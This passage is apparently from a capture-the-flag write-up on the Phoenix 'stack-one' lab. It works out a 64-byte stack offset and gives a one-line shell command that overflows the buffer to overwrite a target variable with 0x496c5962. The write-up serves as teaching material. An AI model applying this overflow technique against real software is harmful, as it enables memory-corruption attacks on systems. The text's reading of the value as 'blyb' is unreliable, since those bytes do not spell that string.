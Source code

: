 
## Exploitation Plan

We need to overwrite (`rbp-0x10`) with `0x496c5962`.

Given:

```
0x50 - 0x10 = 0x40 = 64 bytes
```

This means:

* Input buffer is 64 bytes long
* To overwrite, input must be **64 bytes of junk + 4-byte value**

---

## Exploit

```bash
./stack-one $(python3 -c 'print("A"*64 + "\x62\x59\x6c\x49")')
```

Why this works:

* Little-endian architecture
* `0x496c5962` = `"blyb"` in hex → reversed in memory as `\x62\x59\x6c\x49`

---

## Result

![success](/assets/phoenix/success1.png)

We have correctly set the correct value in a target variable!

---

## Summary

| Component     | Offset     | Role                     |
| ------------- | ---------- | ------------------------ |
| `changeme`    | `rbp-0x10` | Flag value to override   |
| `buffer`      | `rbp-0x50` | Target of `strcpy()`     |
| Overflow size | 64 + 4     | 64-byte buffer + 4 bytes |

---

## Key Takeaways
